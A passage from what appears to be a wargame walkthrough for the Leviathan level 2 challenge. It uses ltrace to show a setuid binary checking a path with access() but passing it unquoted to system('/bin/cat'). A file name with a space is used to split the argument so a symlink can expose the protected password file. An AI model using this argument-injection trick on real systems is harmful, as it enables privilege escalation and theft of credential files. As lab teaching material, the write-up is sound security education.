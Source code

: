 Running `ltrace` on it reveals limited information

{% highlight shell %}
$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x804852d, 2, 0xffffd784, 0x8048600 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)              = -1
puts("You cant have that file..."You cant have that file...
)                       = 27
+++ exited (status 1) +++
{% endhighlight %}

We need a file that isn't disallowed so we can see where it goes after the `access()` call. It is probably best to make our own file for this purpose.

{% highlight shell %}
$ touch /tmp/maxmunday/file.txt
$ ltrace ./printfile /tmp/maxmunday/file.txt
__libc_start_main(0x804852d, 2, 0xffffd754, 0x8048600 <unfinished ...>
access("/tmp/maxmunday/file.txt", 4)                                                    = 0
snprintf("/bin/cat /tmp/maxmunday/file.txt"..., 511, "/bin/cat %s", "/tmp/maxmunday/file.txt") = 32
system("/bin/cat /tmp/maxmunday/file.txt"... <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                  = 0
+++ exited (status 0) +++
{% endhighlight %}

The `access()` call and the call to `/bin/cat` seem to be a bit different. 

The quotes in the `system()` call lead me to believe that if you put two files as arguments to `printfile`, `access()` might read it as a single file, but `cat` will probably read it as two individual files. That might get around our file privilege problem.

I tried a few combinations until a single file with a space in the name offered some promise

{% highlight shell %}
$ touch /tmp/maxmunday/two\ files
$ ltrace ./printfile /tmp/maxmunday/two\ files 
__libc_start_main(0x804852d, 2, 0xffffd754, 0x8048600 <unfinished ...>
access("/tmp/maxmunday/two files", 4)                      = 0
snprintf("/bin/cat /tmp/maxmunday/two file"..., 511, "/bin/cat %s", "/tmp/maxmunday/two files") = 33
system("/bin/cat /tmp/maxmunday/two file".../bin/cat: /tmp/maxmunday/two: No such file or directory                                                                                             
/bin/cat: files: No such file or directory                                                      
 <no return ...>                                                                                
--- SIGCHLD (Child exited) ---                                                                  
<... system resumed> )                                     = 256                                
+++ exited (status 0) +++                                                    
{% endhighlight %}

Here we see that `/bin/cat` has tried to process the file `two files` as `two` and `files`, while `access()` has processed it as a single file.

Knowing this we just have to get the file `two` to print the contents of `/etc/leviathan_pass/leviathan3`. 

I had tried a symbolic link previously in an attempt to get two files to pass through `access()` but it hadn't worked. But with this file we should be able to do it correctly.
